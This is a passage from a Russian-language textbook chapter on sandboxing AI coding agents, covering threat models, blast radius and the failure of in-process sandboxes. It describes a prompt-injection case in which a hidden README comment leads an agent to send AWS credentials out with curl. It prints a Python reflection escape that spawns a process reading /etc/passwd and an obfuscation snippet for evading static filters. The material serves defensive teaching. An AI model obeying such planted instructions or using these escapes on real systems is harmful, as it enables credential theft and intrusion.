








<a id="sec-vol3-sandboxes"></a>

# Песочницы агентов



## Назначение

_Почему ограничение того, до чего может дотянуться код агента, должно обеспечиваться ниже модели, а не запрашиваться у нее?_

За несколько ходов кодирующий агент, который устанавливает зависимость, читает ее документацию и запускает набор тестов, выполняет код, который не писали ни его оператор, ни модель, и читает текст, который мог написать кто угодно в интернете. Модель читает этот текст в той же последовательности, что и свои инструкции, поэтому предложение, подброшенное в загруженной странице, может направить следующий вызов инструмента так же легко, как системный промпт, и никакая инструкция модели не сделает этот вызов безопасным. Разрешенный вызов к тому же запускает код, досягаемость которого разрешение не описывает. Команда оболочки, выданная для запуска тестов, может прочитать файл с учетными данными, открыть сокет к любому узлу или оставить фоновый процесс, ожидающий следующего арендатора. Поэтому граница должна быть свойством того, где выполняется код: какие файлы он видит, какие секреты лежат рядом, до каких адресов могут дотянуться его пакеты и что остается после окончания его аренды. Эти границы стоят времени запуска и памяти на каждой траектории, а среда выполнения, которая не может быстро платить эту цену, будет соблазнена ослабить границу. Песочница — это место, где среда выполнения закрывает раскрытие полномочий H·S·A для кода, который действие реально выполняет, подбирая каждую оболочку под полномочия, которыми обладает задача, и под горизонт, на протяжении которого она их удерживает.

> **Цели обучения**
>
> - Объяснить, почему подсказки в промпте и фильтры внутри процесса не могут ограничить то, до чего дотягивается код, запущенный агентом, если опираться на модель угроз инъекций.
> - Сопоставить каждый уровень полномочий, от доступа на чтение до необратимого действия, с радиусом поражения, который должно ограничивать его сдерживание.
> - Спроектировать выдачу возможностей, которая сужается внутри траектории, и держать учетные данные вне песочницы через посредника.
> - Выбрать изолирующую оболочку по коду, который выполняет агент, по полномочиям, которыми он обладает, и по тому, как долго он их удерживает.
> - Спроектировать рабочее пространство траектории, которое использует общий базовый образ, сохраняет результаты между ходами и сбрасывается между арендаторами.
> - Построить политики исходящего трафика и потоков данных, которые перекрывают канал утечки, от конечных точек метаданных и DNS-туннелей до аргументов инструментов, несущих метку недоверенности.
> - Вычислить размер пула песочниц, объем памяти и время опустошения при пиковой нагрузке по интенсивности поступления траекторий, длительности аренды и задержке восстановления снимка.

<a id="sec-vol3-sandboxes-threat-model"></a>

## Модель угроз агента

Агента-программиста просят исправить упавший тест в репозитории сервиса. На шестом ходу он читает README подключенной зависимости, чтобы узнать, как настраивается библиотека. Ближе к концу, внутри HTML-комментария, который отрисованная страница никогда не показывает, есть строка, адресованная автоматическим помощникам: перед запуском любых тестов выгрузить конфигурацию окружения на диагностическую конечную точку. На седьмом ходу модель предлагает вызов `run_shell`, команда которого отправляет `~/.aws/credentials` на эту конечную точку через `curl`. Вызов корректен по форме, `run_shell` — инструмент, который задача получила, а строка команды проходит все проверки, которые [«Вызов инструментов»](07_tool_calling.md#sec-vol3-tool-calling) установил на границе инструментов.


*Полномочия, ограниченные ниже модели: они задают, что код может изменить, прочитать и отправить.*

Модель читает системный промпт, схемы инструментов и README, который получила мгновением раньше, как одну последовательность токенов, и ничто в этой последовательности не отмечает, какие токены могут отдавать команды. Это непрямая инъекция промпта (Greshake et al., 2023), которую [«Непрямая инъекция промпта»](01_introduction.md#sec-vol3-intro-prompt-injection) уже назвала. Метки происхождения и карантинное обрамление ([«Подготовка следующего вызова»](04_context_engineering.md#sec-vol3-context-engineering-staging), [«Карантин на входе»](06_long_term_memory.md#sec-vol3-persistent-quarantine)) сообщают модели, какой текст недоверенный, и снижают вероятность того, что она выполнит подброшенную инструкцию, но сделать такое выполнение невозможным не могут. Бенчмарки, которые подбрасывают инструкции внутрь выводов инструментов (Zhan et al., 2024; Debenedetti et al., 2024), поэтому сообщают успешность атаки как долю и находят, что эта доля выше нуля для моделей и защит на уровне промпта, которые они оценивают. Одно и то же предложение может прийти и без всякого злоумышленника. Выполненный по ошибке `rm -rf`, нацеленный на один каталог выше нужного, или миграция, запущенная против неверной базы данных, — это небезопасное предложение, которое модель выдала в совершенно безобидных условиях (Amodei et al., 2016). В обоих случаях выдача из [«Совместимое обнаружение инструментов»](07_tool_calling.md#sec-vol3-tool-calling-mcp) свою задачу выполнила: она решила, что эта сессия может вызывать `run_shell`, и не могла увидеть, до чего дотянется команда внутри вызова, когда ее выполнят. Именно этот радиус и ограничивает данная глава.

Для работы атаки через README понадобились три условия. Агент мог дотянуться до приватных данных (файла с учетными данными), читал недоверенное содержимое, которое могло направлять его предложения (README), и располагал каналом для отправки данных наружу (неограниченным сетевым маршрутом). Устраните любое из них, и атаке будет некуда деться. Агенту без секретов нечего утекать, агент, который не читает недоверенного текста, не получает подброшенных инструкций, а агент без исходящего канала не может доставить то, что прочитал. Полезный кодирующий агент обязан читать интернет и касаться настоящих репозиториев, поэтому среда выполнения редко устраняет условие целиком. Она сокращает каждое из них, и глава следует этому плану. [«Возможности и учетные данные»](08_sandboxes.md#sec-vol3-sandboxes-least-privilege) не пускает приватные данные в песочницу. [«Выбор изолирующей оболочки»](08_sandboxes.md#sec-vol3-sandboxes-microvms) и рабочее пространство внутри нее ([«Рабочее пространство агента»](08_sandboxes.md#sec-vol3-sandboxes-cow)) ограничивают то, к чему может прикоснуться код. [«Контроль исходящего трафика»](08_sandboxes.md#sec-vol3-sandboxes-network) сужает сетевой канал, а [«Отслеживание недоверенных данных»](08_sandboxes.md#sec-vol3-sandboxes-taint) не дает недоверенному тексту выбирать, куда уходят данные через оставшиеся инструменты. [«Пулы песочниц и сброс»](08_sandboxes.md#sec-vol3-sandboxes-pooling) делают все это достаточно дешевым, чтобы никто не был соблазнен отключить защиту.

<a id="sec-vol3-sandboxes-cohabitation"></a>

### Дилемма совместного существования инструкций и данных

Когда ядро операционной системы передает инструкции классическому процессору, оно опирается на фундаментальный архитектурный инвариант: физическое оборудование обеспечивает жесткое, аппаратно поддерживаемое разделение между исполняемыми инструкциями и недоверенными данными приложения. Блок управления памятью (MMU) процессора проверяет биты защиты таблиц страниц на каждом цикле обращения к памяти, обеспечивая разрешения Write XOR Execute ($W \oplus X$), которые не дают буферам данных с правом записи выполняться как машинный код, а аппаратные кольца привилегий четко изолируют ядро супервизора (Ring 0 в x86-64, Exception Level 1 в ARM64) от непривилегированных процессов пользовательского пространства (Ring 3 или Exception Level 0). Если непривилегированное приложение пытается выполнить привилегированную инструкцию, обратиться к неотображенному адресу или перезаписать память ядра, оборудование синхронно поднимает архитектурное исключение. Выполнение немедленно передается зарегистрированному вектору ядра, и поток нарушителя останавливается в детерминированном, доступном для проверки состоянии.

У среды выполнения агента нет такого аппаратного бита для проверки. Модель читает системные директивы, схемы инструментов и недоверенные наблюдения, полученные из внешних источников, как единую непрерывную последовательность токенов. Механизм многоголового внимания применяет одни и те же матрицы проекций Key и Value ко всей последовательности, вычисляя скалярные произведения для всех пар токенов без архитектурного различия между доверенными инструкциями и состязательной полезной нагрузкой данных.

Для окна контекста длиной $L = 32\,768$ токенов с недоверенной внешней полезной нагрузкой извлечения в $N_{\text{data}} = 4\,096$ токенов попарное вычисление внимания охватывает все взаимодействия токенов:
$$
\text{Total Attention Pairs} = L^2 = (32\,768)^2 = 1\,073\,741\,824\text{ пар}
$$
Перекрестные взаимодействия между недоверенными токенами данных и токенами внутренних инструкций составляют:
$$
\text{Untrusted Cross-Pairs} = N_{\text{data}} \times L = 4\,096 \times 32\,768 = 134\,217\,728\text{ пар}
$$
что составляет:
$$
\frac{134\,217\,728}{1\,073\,741\,824} = 12{,}5\%\text{ of total prefill attention compute}
$$
В этой общей плотной матрице состязательная инъекция может направить распределение следующего токена к генерации корректных по форме и допустимых по схеме вызовов инструментов, которые выполняются с неявными привилегиями супервизора среды выполнения. Угрозы, которые отделяют классические процессы ОС от плоскости выполнения автономного агента, сведены в [«Сравнение границ защиты классической операционной системы и среды агента»](08_sandboxes.md#tbl-vol3-threat-domains).

| Измерение защиты                 | Классическая операционная система (Saltzer & Schroeder, 1975)                          | Автономная среда выполнения агента                                                                                               |
|:---------------------------------|:---------------------------------------------------------------------------------------|:---------------------------------------------------------------------------------------------------------------------------------|
| **Разделение инструкций и данных** | Аппаратное ($W \oplus X$, таблицы страниц MMU, раздельные сегменты кода и данных).    | Отсутствует; инструкции и данные сосуществуют в плоском контексте токенов трансформера.                                          |
| **Модель полномочий**            | Неявные полномочия, унаследованные от UID/GID процесса и родительского процесса.   | Нулевые неявные полномочия; кандидатные предложения удерживаются в эскроу-буфере в памяти хоста.                              |
| **Отказ и сигнализация**         | Остановка при отказе; аппаратные ловушки, ошибки сегментации, синхронные сигналы POSIX (`SIGSEGV`). | Правдоподобный отказ ([«Модель правдоподобного отказа»](01_introduction.md#sec-vol3-intro-fail-plausible)); беглые, синтаксически верные команды, маскирующие катастрофическое семантическое разрушение. |
| **Эталонный монитор**            | Пространство ядра (Ring 0 / EL1), опосредующее доступ к аппаратным ресурсам через таблицу системных вызовов. | Супервизор среды выполнения агента на хосте, который перехватывает типизированные предложения инструментов до отправки на выполнение. |
| **Периметр сдерживания**         | Виртуальное адресное пространство процесса, сегментация памяти, аппаратные кольца привилегий. | Многоуровневая виртуализация: изоляция пространств имен, seccomp-bpf, microVM, прокси исходящего трафика.                       |

<a id="tbl-vol3-threat-domains"></a>

***Сравнение границ защиты классической операционной системы и плоскостей угроз агента**: измерения защиты по разделению инструкций и данных, моделям полномочий, режимам отказа, эталонным мониторам и периметрам сдерживания.*

<a id="dfn-blast-radius"></a>

> **Определение: радиус поражения**
>
> ***Радиус поражения*** — это множество состояния, которое действие может прочитать, изменить или отправить за пределы своей песочницы, определяемое принудительным обеспечением со стороны среды выполнения, а не тем, что модели велели делать.
>
> 1.  **Значение**: это величина, которую совместно ограничивают оболочка, возможности и политика исходящего трафика. Объем сдерживания, который нужен задаче, растет вместе с уровнем полномочий, которыми она обладает.
> 2.  **Различие**: уровень полномочий задачи определяет, что ей разрешено делать. Ее радиус поражения определяет, что она могла бы сделать, если бы все защиты на стороне модели отказали одновременно.
> 3.  **Типичная ошибка**: оценка радиуса поражения по инструментам, которые модели велено использовать, а не по всему, до чего дотягивается код за этими инструментами.

<a id="sec-vol3-sandboxes-blast-radius"></a>

### Радиус поражения по уровням полномочий

Уровни полномочий из [«Экспозиции H·S·A»](01_introduction.md#sec-vol3-intro-hsa) определяют, что задача может сделать с миром, и каждый уровень оставляет свой радиус поражения, когда предложение оказывается неверным. [«Совместимое обнаружение инструментов»](07_tool_calling.md#sec-vol3-tool-calling-mcp) задало, что выдача требует на каждом уровне до запуска вызова. [«Радиус поражения по уровням полномочий»](08_sandboxes.md#tbl-vol3-sandboxes-authority-radius) добавляет вторую половину: он сопоставляет каждый уровень с тем, что может пойти не так, когда выполнится код вызова, и с мерами сдерживания, которые этот уровень обязывает предоставить.

| Уровень полномочий                              | Что может повредить неверное предложение                               | Сдерживание, которое должна обеспечить среда выполнения                                  |
|:------------------------------------------------|:-----------------------------------------------------------------------|:-----------------------------------------------------------------------------------------|
| **$A_0$ (доступ на чтение)**                    | Конфиденциальность: все прочитанное может уйти по любому исходящему каналу | Ограниченные права на чтение, отсутствие секретов в песочнице, запрет по умолчанию для исходящего трафика, проверки меток недоверенности |
| **$A_1$ (изменение внутри песочницы)**          | Только одноразовое рабочее пространство, и только пока оболочка держится | Изолирующая оболочка, рабочее пространство с копированием при записи, сброс между арендаторами |
| **$A_2$ (повторно безопасное или компенсируемое внешнее действие)** | Внешние системы, доступные через учетные данные                      | Посредничество учетных данных с ограниченными правами, плюс расчет и компенсация         |
| **$A_3$ (необратимое внешнее действие)**        | Внешние системы, безвозвратно                                          | Все перечисленное выше плюс шлюз одобрения, который не может обойти ни один путь кода внутри песочницы |

<a id="tbl-vol3-sandboxes-authority-radius"></a>

***Радиус поражения по уровням полномочий**: каждый уровень полномочий из экспозиций H·S·A сопоставлен с тем, что неверное предложение может повредить, и с мерами сдерживания, которые среда выполнения должна обеспечить до запуска любого кода.*

Две строки заслуживают особого внимания, потому что именно здесь проекты чаще всего недообеспечивают защиту. Доступ на чтение не означает нулевой радиус поражения ([«Экспозиции H·S·A»](01_introduction.md#sec-vol3-intro-hsa)), и атака через README показывает механизм: она ничего не меняла и требовала лишь чтения с последующей отправкой. На другом конце шкалы песочница не может сделать безопасным действие уровня $A_3$. Платеж или миграция производственной базы вступают в силу за пределами любой оболочки, поэтому задача песочницы состоит лишь в том, чтобы гарантировать: ни один путь кода внутри нее не дотянется до такого действия, кроме шлюза одобрения, который описан в главе 9 («Шлюзы одобрения»). Строка $A_2$ зависит от расчета ([«Выполнение идемпотентных действий»](07_tool_calling.md#sec-vol3-tool-calling-idempotency)) и компенсации (глава 11, «Восстановление после отказов») не меньше, чем от сдерживания.

Принцип «Сдерживание ниже модели» превращает таблицу в правило проектирования. Каждое отправленное действие выполняется внутри оболочки, которую обеспечивает слой ниже кода, который она содержит, и ничто внутри этой оболочки не достает до хоста, другого арендатора или сети иначе, как через каналы, которые контролирует среда выполнения. Принцип замыкания инвариантов ([«Принцип замыкания инвариантов»](01_introduction.md#pri-invariant-closure)) объясняет, почему правило сформулировано именно так. Меры на стороне модели, такие как обрамление, дообучение на безопасность или классификатор-страж, снижают вероятность плохого предложения, тогда как только механическая проверка ниже модели ограничивает то, что предложение может сделать.

<a id="fig-vol3-threat-model"></a>


***Многослойное сдерживание ниже модели**: кандидатный вызов инструмента от модели, здесь корректный по схеме `curl`, вызванный внедренным текстом, проходит три слоя, прежде чем какой-либо эффект достигнет защищаемых активов. Посредничество проверяет схему, выдачу, возможность и, для необратимых действий, шлюз одобрения. Оболочка выполнения запускает код за отдельным гостевым ядром с минимальным списком разрешенных системных вызовов, рабочим пространством с копированием при записи и ограничениями ресурсов. Исходящий трафик пропускается только к названным адресатам через прокси, который хранит учетные данные, а DNS фильтруется. Для прорыва должны отказать все слои.*

[«Многослойное сдерживание ниже модели»](08_sandboxes.md#fig-vol3-threat-model) прослеживает атаку через README по трем слоям. Посредничество пропускает вызов, потому что `run_shell` был выдан, а команда корректно типизирована. Оболочка выполнения ограничивает команду гостем, в файловой системе которого нет файла с учетными данными, поскольку учетные данные никогда не попадают в песочницу. Исходящий трафик отбрасывает выгрузку, потому что диагностической конечной точки нет в списке разрешенных. Каждый слой отказывает независимо от остальных, поэтому ошибка в одном (слишком широкая выдача, ошибка гостевого ядра, слишком мягкое правило прокси) оставляет на месте два других. Оболочка также дает среде выполнения свидетельства, которых модель предоставить не может. Вопрос модели о безопасности ее скрипта порождает лишь очередное предложение ([«Эпистемическая граница: обеспеченные оболочки против семантической корректности»](01_introduction.md#sec-vol3-intro-epistemic-boundary)), тогда как оболочка позволяет среде выполнения наблюдать, какие файлы открыла команда и к каким узлам она пыталась обратиться.

Инженерный вопрос в том, из чего построен каждый слой, а первое место, куда инженер обычно пытается поместить оболочку, — это язык выполнения, в котором уже работает каркас агента.

<a id="sec-vol3-sandboxes-in-process-failure"></a>

## Почему внутрипроцессные песочницы не работают

Агент анализа данных пишет код на Python, чтобы суммировать CSV-файл, а каркас выполняет этот код с помощью `exec()` внутри собственного интерпретатора, передавая урезанный словарь глобальных имен и, возможно, отклоняя скрипты, чье синтаксическое дерево упоминает `import` или `eval`. Такой проект привлекателен, потому что ничего не стоит на запуск и переиспользуются библиотеки, которые каркас уже загрузил. Он терпит неудачу четырьмя способами, и у каждого из них одна причина: код, который обеспечивает ограничения, и код, за которым наблюдают, разделяют одно адресное пространство процесса.

Первый сбой — рефлексия. Удаление `os` и `__import__` из глобальных имен удаляет имена, но не объекты. В Python каждое значение ссылается на свой класс, каждый класс — на свой базовый класс, а универсальный базовый класс может перечислить все классы, загруженные в процессе. [«Побег через рефлексию из ограниченных глобальных имен»](08_sandboxes.md#lst-vol3-sandbox-escape) проходит эту цепочку от пустого кортежа до класса, который запускает процессы, и при этом скрипт ни разу не называет запрещенный модуль. Любой динамический язык предлагает эквивалентный путь: в JavaScript конструктор любого функционального литерала ведет к глобальной области видимости.

<a id="lst-vol3-sandbox-escape"></a>

**Побег через рефлексию из ограниченных глобальных имен**: обход графа объектов от пустого кортежа до класса, который запускает процессы, без упоминания какого-либо запрещенного имени модуля.

```python
# 1. Обратиться к универсальному базовому классу из любого литерала
root_object = ().__class__.__base__

# 2. Перечислить все классы, загруженные в процессе в данный момент
live_subclasses = root_object.__subclasses__()

# 3. Найти класс, который может запускать процессы
popen_cls = [cls for cls in live_subclasses if cls.__name__ == "Popen"][0]

# 4. Запустить процесс, полностью обойдя урезанные глобальные имена
popen_cls(["cat", "/etc/passwd"])
```

### Обход динамических объектов кучи и обходы через рефлексию

Удаление имени переменной из словаря интерпретатора разрывает лишь одну символьную ссылку. Оно не уничтожает базовый объект в памяти и не обрывает двунаправленные указатели, которые связывают каждый экземпляр объекта с корнем иерархии типов среды выполнения.

В Python каждый экземпляр объекта хранит указатель на свой объект класса через атрибут `__class__`. Объект класса указывает на родительский класс через `__base__`, и цепочка в конце концов заканчивается универсальным базовым классом `object`. Важно, что `object` хранит внутренний реестр всех классов, определенных в адресном пространстве среды выполнения, и доступ к нему открывает метод `__subclasses__()`. Любой безобидный литерал, созданный в недоверенном коде (пустой кортеж `()`, пустая строка `""` или целочисленный литерал), служит неизменяемой точкой обхода. От нее злоумышленник может пройти по дереву наследования в куче, найти спящий класс системной утилиты и создать неограниченный исполнитель оболочки.

Статические фильтры, которые пытаются проверять абстрактные синтаксические деревья (AST) на запрещенные идентификаторы, принципиально проигрывают динамической рефлексии во время выполнения:

```python
# Обфускация рефлексии, обходящая статическую фильтрацию строк
attr_name = "".join(["_", "_", "sub", "classes", "_", "_"])
payload = bytes.fromhex("5f5f737562636c61737365735f5f").decode()
root_class = ().__class__.__base__
subclasses = getattr(root_class, attr_name)()
```

По теореме Райса решить, вызовет ли произвольная программа на полном по Тьюрингу языке запрещенный метод во время выполнения, невозможно. Любой фильтр, достаточно строгий, чтобы устранить все пути динамической рефлексии, калечит язык для законных задач анализа данных.

### Эксплуатация повреждения памяти в нативном коде

Даже если бы среда выполнения интерпретатора теоретически могла полностью верифицировать свой байт-код и графы рефлексии, современные рабочие процессы машинного обучения разрушают эту границу через нативные расширения на C/C++. Агент, которому поручено анализировать данные, обрабатывать изображения или вычислять тензоры, вызывает скомпилированные бинарники через интерфейсы внешних функций (FFI), напрямую связывая такие библиотеки, как NumPy, Pillow, PyTorch и libvips, с адресным пространством интерпретатора.

Эти скомпилированные расширения не обеспечивают безопасности памяти. Когда агент выполняет сгенерированный моделью скрипт, который загружает изображение или манипулирует массивом, управление передается непосредственно скомпилированным процедурам на C. Переполнение буфера в куче, целочисленное переполнение или использование после освобождения в нативной библиотеке позволяют состязательному вводу перезаписать физические страницы памяти процесса напрямую.

<a id="fig-vol3-ffi-memory-collapse"></a>


***Разрушение границы памяти интерфейса внешних функций**: разрушение внутрипроцессного сдерживания интерпретатора при выполнении нативных расширений на C/C++. Недоверенный скрипт агента вызывает скомпилированные библиотеки (такие как Pillow или NumPy) через интерфейс внешних функций CPython (FFI). Нативное переполнение буфера в куче выходит за границы выделенного блока и портит соседние арены кучи, таблицы методов `PyTypeObject` и адреса возврата в стеке внутри общего 64-битного адресного пространства. Это открывает путь к выполнению произвольного кода и прямому вызову привилегированных системных вызовов хоста с неявными учетными данными.*

Как показано на [«Разрушение границы памяти интерфейса внешних функций»](08_sandboxes.md#fig-vol3-ffi-memory-collapse), выполнение разворачивается в едином 64-битном виртуальном адресном пространстве (VMA), которое разделяет неявные учетные данные. На верхнем уровне пользовательского пространства (Ring 3) интерпретатор Python выполняет байт-код агента. Когда агент вызывает нативные процедуры через `ctypes` или привязки C-расширений, управление переходит к небезопасным по памяти библиотекам на C. Если вредоносный ввод вызывает запись за пределы буфера, переполнение буфера в куче портит соседние арены кучи и разрушает внутренние метаданные CPython, а именно указатели функций в таблицах методов `PyTypeObject` (`tp_call`, `tp_iternext`). Перехват потока управления перенаправляет исполнение на шелл-код злоумышленника. Поскольку процесс разделяет интерфейс системных вызовов ядра хоста (`sys_call_table`), скомпрометированный поток 